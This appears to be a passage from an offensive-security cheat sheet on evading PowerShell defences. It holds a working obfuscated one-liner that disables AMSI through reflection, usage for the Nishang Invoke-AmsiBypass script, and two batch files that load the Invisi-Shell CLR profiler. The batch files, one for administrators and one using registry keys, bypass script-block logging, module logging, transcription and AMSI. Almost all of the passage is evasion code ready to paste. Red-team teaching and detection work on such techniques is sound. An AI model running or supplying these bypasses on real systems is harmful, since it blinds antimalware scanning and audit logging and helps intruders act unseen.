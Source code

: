 #### Obfuscated Command 2

```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" - f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation .'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" - f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```


### Invoke-AMSIBypass

https://raw.githubusercontent.com/samratashok/nishang/master/Bypass/Invoke-AmsiBypass.ps1

`. .\Invoke-AmsiBypass.ps1`

Or copy the code from github and paste it directly into the powershell console

`Invoke-AmsiBypass -Verbose`

## Invisi-Shell

Project https://github.com/OmerYa/Invisi-Shell

Hide your powershell script in plain sight! Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies. The hook is performed via CLR Profiler API.

*Paste in cmd or run as .bat*

### RunWithPathAsAdmin.bat

```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
set COR_PROFILER_PATH=
```

### RunWithRegistryNonAdmin.bat

```
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell

set COR_ENABLE_PROFILING=
set COR_PROFILER=
REG DELETE "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
```
